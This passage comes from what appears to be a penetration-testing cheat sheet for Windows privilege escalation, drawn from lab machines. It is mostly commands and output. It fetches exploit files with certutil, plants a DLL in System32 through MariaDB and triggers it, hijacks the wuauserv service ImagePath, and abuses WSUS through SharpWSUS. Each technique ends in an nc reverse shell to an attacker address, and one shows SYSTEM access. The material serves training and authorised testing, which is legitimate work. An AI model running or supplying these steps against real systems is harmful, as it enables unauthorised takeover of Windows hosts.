c:\temp>certutil -urlcache -f http://192.168.45.5/WerTrigger.exe WerTrigger.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\temp>certutil -urlcache -f http://192.168.45.5/Report.wer Report.wer
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\temp>certutil -urlcache -f http://192.168.45.5/phoneinfo.dll phoneinfo.dll
****  Online  ****
CertUtil: -URLCache command completed successfully.

MariaDB [(none)]> select load_file('C:\\temp\\phoneinfo.dll') into dumpfile "C:\\Windows\\System32\\phoneinfo.dll";
Query OK, 1 row affected (0.254 sec)

#After running WerTrigger.exe, we won't receive any prompt but we can still enter commands to execute.
c:\temp>WerTrigger.exe
c:\temp\nc.exe -e cmd.exe 192.168.45.5 445
```

```bash
┌──(root㉿kali)-[/home/kali/Documents/pg_practice/craft2]
└─# nc -lvp 445
listening on [any] 445 ...
connect to [192.168.45.5] from craft.offsec [192.168.159.188] 49770
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

</details>

<details>

<summary>Abuse Service Registry ACLs</summary>

```powershell
# Check the permissions of HKLM:\SYSTEM\CurrentControlSet\Services subkey
$acl = Get-ACL -Path HKLM:\SYSTEM\CurrentControlSet\Services
ConvertFrom-SddlString -Sddl $acl.Sddl | Foreach-Object {$_.DiscretionaryAcl}
```

<figure><img src="../.gitbook/assets/image (353).png" alt=""><figcaption><p>User "Hector" has full control over the HKLM:\SYSTEM\CurrentControlSet\Services subkey</p></figcaption></figure>

Exploit using a service that's running as NT AUTHORITY\SYSTEM that we have permissions to start --> wuauserv or seclogon

<figure><img src="../.gitbook/assets/image (354).png" alt=""><figcaption></figcaption></figure>

```powershell
Set-ItemProperty -path HKLM:\System\CurrentControlSet\services\wuauserv -name ImagePath -value "c:\temp\nc.exe -e powershell.exe 10.10.14.13 443"
sc.exe start wuauserv
```

```
nc -lvp 443
```

<figure><img src="../.gitbook/assets/image (355).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>WSUS Administrators</summary>

Use [https://github.com/nettitude/SharpWSUS](https://github.com/nettitude/SharpWSUS)

To provide updates to internal servers without direct internet connection

Must use Microsoft signed binaries only!

```
.\SharpWSUS.exe create /payload:"C:\temp\psexec_64.exe" /args:" -accepteula -s -d c:\temp\nc64.exe -e cmd.exe 10.10.14.4 443" /title:"CVE-2022-30190"

.\SharpWSUS.exe approve /updateid:<ID> /computername:dc.outdated.htb /groupname:"CriticalPatches"
```

<figure><img src="../.gitbook/assets/image (356).png" alt=""><figcaption></figcaption></figure>

</details>
